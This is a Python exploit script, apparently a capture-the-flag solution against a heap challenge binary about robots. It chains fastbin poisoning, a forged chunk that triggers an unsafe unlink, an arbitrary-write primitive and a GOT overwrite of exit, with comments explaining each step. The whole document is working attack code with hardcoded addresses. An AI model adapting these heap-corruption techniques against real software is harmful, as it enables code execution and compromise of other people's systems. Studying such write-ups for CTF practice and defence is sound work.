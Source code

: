 ```python

def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"
    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)
    # overflow bender inuse with 1
    overflow_benderinuse('\x01')
    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))
    # in order add bender again
    overflow_benderinuse('\x00')
    # add bender again, fastbin 0x603138->NULL
    add(2, 1)
    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)
    # trigger malloc, set tinny point to 0x603148
    add(1)
    # wheels must <= 3
    remove(2)
    remove(3)

    print 'step 2'
    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)
    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)
    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))
    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
    change(6, fakechunk)
    # trigger unlink
    remove(3)

    print 'step 3'
    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'
    # make exit just as return
    write(robots.got['exit'], 0x401954)
```
